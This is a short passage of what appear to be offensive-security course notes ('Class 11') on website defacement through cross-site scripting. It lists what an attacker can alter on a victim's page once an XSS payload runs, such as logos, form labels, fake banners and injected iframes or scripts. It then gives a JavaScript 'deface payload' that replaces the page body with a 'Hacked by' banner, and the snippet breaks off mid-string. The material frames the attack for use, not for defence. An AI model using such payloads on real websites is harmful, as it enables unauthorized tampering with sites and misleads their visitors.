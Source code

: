 # Class 11 – Website Defacement with XSS

Once your XSS payload is executing in the victim's browser, you own that page. You can:
- Replace logos, images, headers
- Change button text / form labels
- Insert fake banners or messages
- Inject iframes or scripts


## simple classic deface payload:
```js
document.body.innerHTML = `
  <h1 style='color:red;text-align:center;margin-top:20%;'>
    Hacked by CYBERNERDDD 💀🔥
  </h1>
  <p style='text-align:center
```
